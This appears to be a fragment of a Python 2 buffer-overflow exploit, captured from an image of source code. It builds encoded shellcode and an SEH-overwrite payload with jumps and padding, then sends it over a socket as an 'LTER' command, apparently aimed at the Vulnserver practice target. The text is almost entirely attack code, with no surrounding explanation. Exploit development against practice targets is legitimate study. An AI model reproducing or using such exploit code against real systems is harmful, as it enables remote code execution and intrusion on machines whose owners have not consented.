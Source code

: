 ```python
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x45\x71\x67\x61" ## add  eax, 0x61677145
shellcode += "\x05\x44\x71\x56\x51" ## add  eax, 0x51567144
shellcode += "\x50"


buffer = espAdj3
buffer += shellcode
buffer += 'A' * (3427 - len(espAdj3) - len(shellcode))
buffer += espAdj2
buffer += longJump
buffer += 'A' * (3514 - 3427 - len(espAdj2) - len(longJump))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
